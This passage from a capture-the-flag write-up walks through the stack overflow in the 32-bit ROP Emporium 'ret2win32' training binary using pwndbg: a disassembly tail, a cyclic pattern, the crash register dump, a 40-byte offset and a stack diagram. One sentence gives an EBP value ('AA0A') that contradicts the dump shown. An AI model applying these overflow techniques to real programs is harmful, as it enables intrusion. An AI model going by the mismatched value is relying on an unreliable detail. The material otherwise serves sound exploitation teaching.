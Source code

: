 ```
   0x08048653 <+39>:    leave
   0x08048654 <+40>:    ret
End of assembler dump.
```

So the address of `ret2win` is `0x0804862c` in the 32-bit executable. One thing to note is that the arguments for a 32-bit function call are pushed on the stack whereas the arguments for a 64-bit function call are stored in registers.

You can check out live overflow's video if you to know more differences in 64-bit and 32-bit assembly.

### Cyclic pattern

Let's create a cyclic pattern.

```
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

Let's provide this pattern as the input.

```
───────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────
*EAX  0xb
*EBX  0xf7fad000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x229dac
*ECX  0xf7fae9b4 (_IO_stdfile_1_lock) ◂— 0x0
*EDX  0x1
*EDI  0xf7ffcb80 (_rtld_global_ro) ◂— 0x0
*ESI  0xffffd0f4 —▸ 0xffffd221 ◂— '/home/kunal/ropEmporium/ret2win32/ret2win32'
*EBP  0x6161616b ('kaaa')
*ESP  0xffffd020 ◂— 0x6161616d ('maaa')
*EIP  0x6161616c ('laaa')
```

We can see that the `ebp` has the value `0x41304141` which is the little endian `AA0A` in ASCII.

Let's find the offset of this value in our cyclic pattern.

```
pwndbg> cyclic -l 0x6161616b
Finding cyclic pattern of 4 bytes: b'kaaa' (hex: 0x6b616161)
Found at offset 40
```

So the offset is 40 bytes.

Let's see how this looks on the stack.

```
<======: Value is stored at that location
<------: Points to the address

+---------------+ 
|  61 61 61 61  | <====== buffer (32 bytes) <------ esp
|  62 61 61 61  | 
|  63 61 61 61  |
|  64 61 61 61  |
|  65 61 61 61  |
|  66 61 61 61  |
|  67 61 61 61  |
|  68 61 61 61  |
|  69 61 61 61  |
|  6A 61 61 61  |
+---------------+
|  6B 61 61 61  | <====== stored ebp <------ ebp
+---------------+
```